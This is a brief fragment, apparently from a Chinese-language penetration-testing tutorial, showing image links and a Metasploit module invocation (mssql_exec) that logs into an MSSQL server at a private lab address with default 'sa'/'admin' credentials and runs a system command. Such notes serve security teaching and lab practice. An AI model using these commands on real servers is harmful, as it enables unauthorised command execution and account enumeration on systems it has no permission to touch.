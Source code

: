 ![image.png](assets/1706232584-865b0921cca449f9d3217d4c0412e882.png)  
![image.png](assets/1706232584-d9a79a2ad63a95d0b41bdfce006fc3ff.png)

### 执行系统命令

```php
use auxiliary/admin/mssql/mssql_exec
set rhosts 192.168.3.130
set username sa
set password admin
set cmd "net user"
exploit
```
